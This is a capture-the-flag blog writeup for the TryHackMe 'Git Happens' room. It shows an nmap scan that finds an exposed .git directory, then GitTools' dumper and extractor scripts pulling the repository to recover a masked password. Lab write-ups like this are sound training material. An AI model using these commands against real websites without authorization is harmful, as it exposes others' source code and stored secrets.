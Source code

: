 ```yaml
---
title: "Git Happens - TryHackMe"
author: Ludovic COULON
date: 2020-08-24
hero: ./images/hero.png
excerpt: "Writeup for the Git Happens room"
---
```


[TryHackMe | Git Happens](https://tryhackme.com/room/githappens)

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Can you find the password to the application?

---

### Setup

```bash
└──╼ $ nmap -A -T4 10.10.58.41
```

```bash
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.58.41:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As you can see the nmap scan found a ".git" repertory on the website, let's use some tools to get all the data.

[internetwache/GitTools](https://github.com/internetwache/GitTools)

<div className="Image__Medium">
	<img src="https://i.imgur.com/XXygrPA.png" alt="blog_image" />
</div>

```bash
└──╼ $ ./gitdumper.sh http://10.10.58.41/.git/ .
```

Once the dumper script get all the data let's use the extractor script to have all the source code.

<div className="Image__Medium">
	<img src="https://i.imgur.com/8DyZR2H.png" alt="blog_image" />
</div>

```bash
└──╼ $ ./extractor.sh ~/Desktop/TryHackMe/git-thm/GitTools/Dumper/ .
```

<div className="Image__Medium">
	<img src="https://i.imgur.com/a53y7oc.png" alt="blog_image" />
</div>

As you can see the script created some directory, let's see if the password is in there.

### **#1 Find the Super Secret Password**

<div className="Image__Medium">
	<img src="https://i.imgur.com/SzdvdmG.png" alt="blog_image" />
</div>

```bash
Th**_**_*_****_****_******_*******!
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
